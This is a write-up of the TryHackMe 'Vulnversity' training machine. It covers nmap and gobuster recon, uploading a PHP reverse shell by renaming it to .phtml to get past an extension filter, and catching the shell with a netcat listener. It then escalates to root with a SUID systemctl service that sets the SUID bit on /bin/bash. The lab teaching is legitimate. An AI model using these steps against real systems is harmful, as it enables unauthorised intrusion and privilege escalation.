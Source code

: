 ```yaml
---
layout: post
title: THM Vulnversity Ctf Writeup
description: Learn about active recon, web app attacks and privilege escalation.
date: 2021-10-9 18:04
image: '/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vulnbanner.png'
tags: [TryHackme Machines,ctf,pentesting,linux-privesc,bruteforce,cracking,reverse-shell,php,shell-injection]
featured: false
---
```

[**Solve Yourself >>**](https://www.tryhackme.com/room/vulnversity)

Vulnversity is a machine that combines reconnaissance, web attack vectors and privilege escalation methods together.
<br>
<br>
## 1-Enumeration
Let's start with enumerating the host.I will use Network Mapper **nmap** tool in order to scan and probe opened ports and active services to find my attack vector. 

| Parameter  | Functionality                                      |
|:-----------|:---------------------------------------------------|
|-sS         |SYN Stealth Scan (Half TCP Connect scan)            |
|-sV         |Probe open ports to determine service/version info  |
|-O          |Enable OS detection.                                |
|-T4         |T{0-5} Set scan speed, higher is faster.            |
|-p-         |Scan all 65536 ports.                               |
|-oN         |Outputfile                                          |

Full command:
{% highlight bash %}
nmap {machine IP} -sV -sS -O -T4 -p- -oN vulnversity.nmap
{% endhighlight %}
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln2.jpg)
<br>
To create our attack vector.If you do your research and investigate whether one of these services have any vulnerabilities or not, you will return to your home empty handed.You can try anonymous login to FTP protocol, or try to make a SSH connection but you would fail just like I did.None of these services have any vulnerabilities that would put us in the target system.
 
Other than that **"3333/tcp open  http   Apache httpd 2.4.18 ((Ubuntu))"** catches the eye, so lets start to investigate the webpage that the host is running on its port 3333.

![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln3.jpg){:style="max-width: 80%" .normal} 
<br>
Fire up your browser and type **{machine IP}:3333** to your address bar.You will see the webpage shown above.Nothing suspicious there, so lets start to extract the directories with the help of the `gobuster` tool.

| Parameter     | Functionality                                      |
|:--------------|:---------------------------------------------------|
|dir -u         |URL and the port where web server is running        |
|-w             |Wordlist that contains possible directory names     |

Full command:
{% highlight bash %}
gobuster dir -u http://{MachineIP}:3333 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
{% endhighlight %}

[**Seclist's Wordlist Pack >>**](https://github.com/danielmiessler/SecLists)
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln4.jpg){:style="max-width: 80%" .normal} 
<br>
Let's go for **http://[IP]:3333/internal**
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln5.jpg){:style="max-width: 80%" .normal} 
<br>
It seems like we've find our playground :) Website have got an upload functionality.
<br>
<br>
## 2-Exploitation
First thing came into my mind was to upload a php reverse shell, so let's try it out.

[**PHP Reverse Shell Script >>**](https://github.com/krygeNNN/phpenumerate)
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln6.jpg){: .shadow style="max-width: 80%" .normal} <br>
Download the script by using **curl**.However in order to make it work, we need to make some configurations in the script to make it work.

![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln7.jpg){: .shadow style="max-width: 80%" .normal} <br>
Change **$ip** to your own machines ip (tryhackme's vpn tunnel) ,define the port as any random **$port**.I've changed it to the 8888 while it was 1234 by default.

 Configurations are all done ! Now, it is time for us to upload the reverse shell to the web server.<br>
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln8.jpg){:style="max-width: 80%" .normal} 
<br>
**Note**:My machine shutted it down while creating this post, so I had to restart it. That is why the ip have changed, don't worry :)

It seems like .php extension is not allowed.However ,php extension is not the only extension that we can use, we have got couple more.You can try all of them manually, but come on, let's write a python script :)) 
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln9.jpg){:style="max-width: 80%" .normal} 
<br>
[**Download the php bruter script >>**](https://www.tryhackme.com/room/vulnversity)
Run it.
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln10.jpg){:style="max-width: 80%" .normal} 
<br>
**.phtml** is the working extension. Rename the payload, **php_reverse_shell.php** into **php_reverse_shell.phtml**, and than upload it.

![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln11.jpg){:style="max-width: 80%" .normal} 
<br>
Now we have successfully injected our reverse shell script.However we also need to listen incoming connections from the server.Therefore we will use Netcat (**nc**) to listen to the port 8888, which we set in the script before.

|Parameter | Functionality                                     |
|:---------|:--------------------------------------------------|
|-n        | Do not resolve hostnames via DNS                  |
|-l        | Bind and listen for incoming connections          |
|-v        | Set verbosity level (can be used several times)   |
|-p        | Specify source port to use                        |

Full command: 
{% highlight bash %}
nc -nvlp 8888
{% endhighlight %}
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln12.jpg){:style="max-width: 80%" .normal} 
<br>
While listening to port 8888, we need to activate the script that we just uploaded.
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln13.jpg){:style="max-width: 80%" .normal} 
<br>
Visit this URL >> **http://{machineIP}:3333/internals/uploads**, and than click to the reverse php 
shell script that you have uploaded. 

![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln14.jpg){:style="max-width: 80%" .normal} 
<br>
Excellent, we are in !
<br>
<br>
## 3-Flag Capturing and Privilege Eseclation
Nevertheless, this shell is not stable righ now, we need to spawn a python shell.
<br>Run those in order: 
{% highlight bash %}
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
{% endhighlight %}
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln15.jpg){:style="max-width: 80%" .normal} 
<br>

#### 1-User Flag
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln16.jpg){:style="max-width: 80%" .normal} 
<br>
In order to get root flag, we have to escalate our privileges, let's search for SUID binaries.If you are not familiar with SUID executables, I recommend you to make your research, than come back, but basically, when you executing a SUID file, you are executing it with it's owner's permissions.We will use **find** command to scan for those binaries.

| Parameter              | Functionality                                          |
|:-----------------------|:-------------------------------------------------------|
| /                      | Search from the root directory                         |
|-type f                 | Only search for files                                  |
|-user root              | Only find the files owned by root                      |
|-perm -u=s              | Only find the files with SUID bit set                  |
|2>/dev/null             | Redirect all stderr outputs to device null             |

Full command:
{% highlight bash %}
find -type f -user root -perm -u=s 2>/dev/null
{% endhighlight %}
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln17.jpg){:style="max-width: 80%" .normal} 
<br>
Some of those binaries have set uid bit by default, however **/bin/systemctl** should not have that SUID permission by default,so let's search how we can exploit that.
<br>
[**GTFOBins >>**](https://gtfobins.github.io/)
<br>
GTFOBins is a github project, and it is curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.Click the link given above and search fore **systemctl**.
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln18.jpg){:style="max-width: 80%" .normal} 
<br>
t seems like one way to exploit that SUID set systemctl is creating a temporary service.Since systemctl's burden is coordinate the services, it makes sense.However we will need to configure that service file.
#### Service file
{% highlight bash %}
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/bash -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
{% endhighlight %}
I have manually changed the systemctl location in the given code from relative to static directory,and also ExecStart will set SUID perm to /bin/bash.

Copy and paste the lines given above to shell (Press enter two times after you paste it), and than check the /bin/bash's file permissions.
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln19.jpg){:style="max-width: 80%" .normal} 
<br>
As you can see, /bin/bash binary now have 's' permission, which indicates that it is a SUID executable.
<br>Run:
{% highlight bash %}
bash -p
{% endhighlight %}
#### 2-Root Flag
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln20.jpg){:style="max-width: 80%" .normal} 
<br>
As you can see euid (Effective user id) set to 0 which belongs to root.Now you can get the root flag.

That is all for this machine.
